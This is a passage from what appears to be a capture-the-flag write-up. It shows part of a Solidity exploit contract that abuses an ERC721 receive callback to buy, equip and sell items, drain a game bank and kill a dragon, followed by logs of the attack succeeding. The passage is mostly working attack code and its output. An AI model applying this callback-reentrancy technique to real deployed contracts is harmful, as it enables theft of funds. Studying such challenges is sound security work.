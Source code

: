 ```solidity
            Sh.buyItem(3);
            I.safeTransferFrom(address(this), address(K), 3, 1, new bytes(0));
            I.safeTransferFrom(address(this), address(K), 4, 1, new bytes(0));
            K.equipItem(4);
            K.equipItem(3);
            K.fightDragon(); //Weird as fuck should one oneshot here
            K.fightDragon();
            K.sellItem(3);
            K.sellItem(4);
            emit log_named_uint(
                "The number of gold piece",
                G.balanceOf(address(K)) / 1 ether
            );
            K.bankDeposit(2_000_000 ether);
            K.bankTransferPartial(4, 2_000_000 ether, 1);

            emit log_named_uint("Health of the Dragon", D.health());
            emit log_named_uint("Health of the knight", K.health());
        }

        increment++;
        return this.onERC721Received.selector;
    }

    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) public pure returns (bytes4) {
        return this.onERC1155Received.selector;
    }
}

```
Results of the payload: 
```bash
Script ran successfully.
== Logs ==
  The Knight address: 0x7aacc5300ec7ac58fe86645d08f21b1becadf99a
  Health of the knight: 10
  Health of the Dragon: 1000000
  The number of gold piece of BANK: 0
  The number of gold piece: 10
  The number of gold piece: 2000010
  Health of the Dragon: 0
  Health of the knight: 10

  ```